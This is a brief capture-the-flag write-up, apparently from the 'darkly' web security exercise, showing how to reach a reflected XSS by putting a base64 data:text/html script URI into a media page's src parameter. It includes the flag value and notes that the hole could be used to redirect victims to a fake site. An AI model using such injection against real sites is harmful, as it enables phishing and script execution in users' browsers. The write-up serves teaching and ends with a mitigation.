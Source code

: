 # MEDIA REQUEST

## The flag
```
THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```

## How to find it ?
On the page http://{IP_ADDRESS}/

The NSA image (the one with headphone) leads to http://{IP_ADDRESS}/?page=media&src=nsa
You can change nsa to base64 script
```
"data:text/html;base64," + base64("<script>alert("wtf");</script>")
> data:text/html;base64,PHNjcmlwdD5hbGVydCgid3RmIik7PC9zY3JpcHQ+
```
http://{IP_ADDRESS}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgid3RmIik7PC9zY3JpcHQ+

## How to use it ?
Inject any script ou like and, for exemple redirect to a fake site

## How to avoid it ?
> Check type of the response and do not accept text/html by default

---

[RETURN](https://github.com/tillderoquefeuil/darkly)
